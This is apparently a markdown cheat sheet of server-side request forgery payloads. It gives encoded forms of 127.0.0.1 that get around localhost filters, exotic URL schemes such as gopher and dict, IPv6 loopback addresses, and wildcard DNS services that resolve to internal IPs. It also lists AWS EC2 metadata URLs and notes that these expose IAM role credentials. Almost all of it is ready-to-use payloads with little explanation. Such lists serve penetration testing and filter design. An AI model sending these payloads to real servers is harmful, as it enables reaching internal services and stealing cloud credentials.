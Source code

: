 ## SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
http://127.000.000.1
```

```
https://520968996
```

_Note:_ The latter can be calculated using http://www.subnetmask.info/

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**Wildcard DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ http://nip.io

**AWS EC2 Metadata**

```
http://169.254.169.254/latest/meta-data/  
```

```
http://169.254.169.254/latest/meta-data/local-hostname
```

```
http://169.254.169.254/latest/meta-data/public-hostname
```

> If there is an IAM role associated with the instance, role-name is the name of the role, and role-name contains the temporary security credentials associated with the role [...]

_Link:_ http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html (includes a comprehensive Instance Metadata Categories table)


- [SSRF Bible](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit)
- [psychoPATH](https://github.com/ewilded/psychoPATH)

